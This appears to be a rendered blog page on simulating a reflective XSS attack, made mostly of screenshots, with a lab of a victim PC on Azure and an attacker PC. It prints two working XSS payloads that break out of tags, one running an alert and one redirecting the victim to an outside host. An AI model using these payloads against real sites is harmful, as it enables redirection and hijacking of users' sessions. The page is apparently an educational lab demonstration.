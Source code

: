 # Reflective XSS attack









## Attack Simulation Design



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image01.png){width="5.768055555555556in" height="3.0833333333333335in"}



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image02.png){width="5.768055555555556in" height="3.0833333333333335in"}





![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image001.png){width="5.768055555555556in" height="3.0833333333333335in"}





![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image002.png){width="5.768055555555556in" height="4.117361111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image003.png){width="5.400468066491689in" height="1.7501520122484688in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image004.png){width="5.768055555555556in" height="1.511111111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image005.png){width="5.768055555555556in" height="0.8555555555555555in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image006.png){width="5.768055555555556in" height="2.6944444444444446in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image007.png){width="5.768055555555556in" height="3.9555555555555557in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image008.png){width="5.768055555555556in" height="0.9854166666666667in"}

\</body\>\</textarea\>\</td\>\<svg\>\<script\>alert&#40/XSS/&#41\</script\>

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image009.png){width="5.768055555555556in" height="2.571527777777778in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image010.png){width="5.768055555555556in" height="3.15625in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image011.png){width="5.768055555555556in" height="2.908333333333333in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0012.png){width="5.768055555555556in" height="1.8291666666666666in"}

2台PC 。一台为受害者，受害者电脑我们直接放在azure云上，另一台攻击者。

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0013.png){width="5.768055555555556in" height="4.236111111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0014.png){width="5.768055555555556in" height="3.76875in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0015.png){width="5.768055555555556in" height="3.277083333333333in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0016.png){width="5.768055555555556in" height="3.4756944444444446in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0017.png){width="5.768055555555556in" height="1.3784722222222223in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0018.png){width="5.768055555555556in" height="3.7506944444444446in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0019.png){width="5.768055555555556in" height="3.9618055555555554in"}

\</body\>\</textarea\>\</td\>\<svg\>\<script\>window.location.href=\"https://fubxzk.39nat.com\";\</script\>

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0020.png){width="5.768055555555556in" height="2.841666666666667in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0021.png){width="5.768055555555556in" height="3.6444444444444444in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image0022.png){width="5.768055555555556in" height="2.0368055555555555in"}
